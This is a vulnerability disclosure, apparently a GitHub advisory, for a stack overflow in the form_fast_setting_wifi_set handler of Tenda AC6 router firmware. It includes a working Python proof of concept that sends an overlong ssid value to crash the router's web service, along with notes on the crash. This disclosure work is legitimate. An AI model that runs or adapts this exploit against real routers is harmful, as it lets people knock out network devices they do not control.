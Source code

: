 # Information

**Vendor of the products:** Tenda

**Vendor's website:** [腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ，Zhao Jiangting(sta8r9@163.com)

**Affected products:** AC6 AC1200 

**Affected firmware version:**  AC6V2.0RTL_V15.03.06.51

**Firmware download address:** [AC6 v2.0 固件-腾达中国](https://www.tendacn.com/us/download/detail-3794.html)

# Overview

A **stack overflow vulnerability** in the `form_fast_setting_wifi_set` function in the  AC6V2.0RTL_V15.03.06.51 allows an attacker to construct an excessively long `ssid` variable, causing a stack overflow, which then leads to a DDoS attack.

# Vulnerability details

Analyzing the form_fast_setting_wifi_set function in this file reveals that when the value of the ssid variable is a very long string, such as 400 characters of "a", a stack overflow attack occurs because the ssid_24g variable, due to insufficient buffer length, overflows when the value is assigned via the strcpy function.

![image-20250313201728286](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132017043.png)

Cross-referencing the form_fast_setting_wifi_set function, it can be observed that it is indeed called by the formDefineTendDa function. As a result, an attacker can cause a DDoS attack on the router.

![image-20250312222912574](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122229560.png)



# Poc

By changing the IP and token to the target router's IP and token, the attack can be successfully carried out.

```python
import requests
ip="192.168.0.34"

url = f"http://{ip}/goform/fast_setting_wifi_set"
headers = {
    "Host": "192.168.0.34",
    "Connection": "keep-alive",
    "Content-Length": "31",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.134.66",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.34/goform/WriteFacMac",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "password=wtfbro",
}

data = {
    "ssid": "a"*0x400,
}

response = requests.post(url, headers=headers, data=data)

print(response.text)

```

# Attack Demonstration

At this point, the service is functioning normally.

![image-20250312223640285](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240094.png)

The script attack was successful, causing a segmentation fault.

![image-20250312223758005](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240127.png)

The service crashed.

![image-20250312223915278](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240425.png)